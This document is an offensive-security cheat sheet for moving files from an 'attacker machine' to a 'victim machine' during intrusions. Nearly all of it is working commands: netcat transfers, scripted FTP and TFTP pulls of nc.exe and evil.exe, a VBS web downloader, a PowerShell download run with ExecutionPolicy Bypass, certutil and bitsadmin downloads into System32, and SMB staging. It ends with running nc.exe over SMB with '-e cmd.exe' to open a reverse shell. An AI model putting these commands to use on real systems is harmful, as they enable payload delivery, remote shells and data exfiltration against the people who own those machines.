 File_transfer

# Do not forget to allow connection on firewalls !!

## Use nc

- on attacker machine : ```nc -nlvp 4444 < shell.php ```
- on victim machine : ```nc -nv <attacking machine> 4444 > shell.php```

---

## WINDOWS 

### TFTP : ( port 69 )

On some windows machine, there's a tftp client installed by default :
copy your file in /srv/atftp/ (arch linux) 

- ```systemctl start atftpd```

- on the targeted machine : ```
tftp -i 10.11.0.156 GET nc.exe C:/Users/Public/Downloads/nc.exe)```


### FTP : ( port 21 ) 

(file are accessible as anonymous in /srv/ftp/ in arch linux, start the service)

```echo open 10.11.0.156 21 > ftp.txt
echo anonymous>> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
```

- Then execute : ```ftp -s:ftp.txt```

If not anonymous, modify anonymous part by :
```
echo USER <user> >> ftp.txt
echo <password> >> ftp.txt
```

### VBS

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```


- ```cscript wget.vbs http://10.11.0.156/evil.exe exploit.exe```


### Powershell :

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```


- ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1```


### debug.exe

Against 32 bit windows operating systems.

There is a 64k byte size limit to the files that can be created by debug.exe

**transfer of nc :**

- Start by using upx to compress it : ```upx -9 nc.exe```

- ```wine exe2bat.exe nc.exe nc.txt```
- copy paste the nc.txt in cmd


### WITHOUT POWERSHELL :


- ```certutil.exe -urlcache -split -f "http://10.11.0.156:8000/nc.exe" c:\Windows\System32\nc.exe```

- ```bitsadmin /transfer job /download /priority high http://10.11.0.156:8000/nc.exe c:\Windows\System32\\nc.exe```

### With powershell :

Both curl, iwr or wget could be alias for Invoke-WebRequest since powershell 5.0, so :

- ```powershell wget “<url>” -outfile “ <youname>”```

- ```curl -O http://ip:port/file```

---


### SMB 

- on attacking machine :
```
smbserver SHARE $(pwd) -smb2support -user user -password password
```
- on victim machine

```
$pass = convertto-securestring 'password' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('user', $pass)

New-PSDrive -Name user -PSProvider Filesystem -Credential $cred -Root \\ip\share
```

- ```net use \\IP\SHARE```
- or ```net use \\IP\SHARE /user user password```


- Viewing available files on the SMB share : ```
dir \\10.10.14.17\SHARE```


- Downloading the nc.exe file to the victim : ```copy \\10.10.14.17\SHARE\nc.exe .```

- With SMB, files can also be uploaded from the victim to the attacker : ```copy nc2.exe \\10.10.14.17\SHARE\nc2.exe```


- Executing nc.exe over SMB on the victim. Note that the executable is not copied to the victim but executed over SMB.
```\\10.10.14.17\SHARE\nc.exe -nv 10.10.14.17 4444 -e cmd.exe``` 

- Rmove the share : ```net use * /delete /y```

### in an old cmd :

- net use /d \\\\ip\\share

- if you have the nc.exe inside, you can use it directly.